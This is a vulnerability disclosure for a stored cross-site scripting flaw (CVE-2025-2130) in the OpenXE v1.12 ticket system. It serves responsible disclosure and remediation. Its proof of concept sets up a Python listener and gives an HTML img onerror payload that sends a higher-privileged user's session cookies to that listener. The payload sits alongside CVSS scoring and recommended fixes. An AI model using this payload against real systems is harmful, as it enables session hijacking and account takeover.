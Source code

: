 # Cross Site Scripting in OpenXE v1.12

### Title: Cross Site Scripting in OpenXE v1.12
### Affected Component: Ticket system
### CWE: CWE-79 (Cross Site Scripting)
### CVSS 4.0 Score: **8.0 (High)**
### CVE: [CVE-2025-2130](https://www.cve.org/CVERecord?id=CVE-2025-2130)
### VulDB: [VDB-299050](https://vuldb.com/?id.299050)

### Vendor homepage:
[https://github.com/OpenXE-org/OpenXE](https://github.com/OpenXE-org/OpenXE)

### Setup for getting the PoC to Work
Set up the project. Fast and easy via Docker: [OpenXE Docker](https://github.com/getthemax/OpenXE-docker)

1. Login using any user that has access to create a ticket.
2. Set up a remote web server to accept requests.
   
   Example:
   ```bash
   python3 -m http.server 8081
   ```
3. In the `notizen` field of a new ticket, insert any text along with the following payload:
   ```html
   <img src="http://url.to.file.which/not.exist" onerror=window.open("http://127.0.0.1:8081/?cookie="+document.cookie,"xss",'height=500,width=500');>
   ```
4. When a higher-privileged user opens the ticket overview, their browser will send a request to the provided URL with cookies, potentially leading to session hijacking.

### Impact
The web application is vulnerable to XSS attacks. Attackers can exploit this vulnerability by injecting malicious scripts, stealing session cookies (if security flags are not properly configured), and potentially hijacking user sessions.

### CVSS 4.0 Metrics Breakdown
- **Attack Vector (AV):** Network (N)
- **Attack Complexity (AC):** Low (L)
- **Privileges Required (PR):** Low (L)
- **User Interaction (UI):** Required (R)
- **Scope (S):** Changed (C)
- **Confidentiality (C):** High (H)
- **Integrity (I):** High (H)
- **Availability (A):** Low (L)

**CVSS Score:** **8.0 (High)**

### Recommended Fix
- Sanitize and escape all user inputs properly.
- Implement Content Security Policy (CSP) to mitigate XSS.
- Set secure cookie flags (`HttpOnly`, `Secure`, `SameSite=Strict`).
- Validate and encode user-generated content before rendering it in the browser.

### Proof with Screenshots

- **User with low privilege created a ticket:**

  ![Ticket payload](./assets/openxe-xss-ticket-low-user.png)

- **Ticket overview - this will trigger the payload:**

  ![Ticket overview](./assets/openxe-xss-overview.png)

- **Cookies received by attacker:**

  ![Cookies sent to attacker](./assets/openxe-xss-cookies.png)

- **Version:**

  ![Version](./assets/openxe-xss-version.png)

## **Credits**
> [Jelle Janssens](https://github.com/janssensjelle)

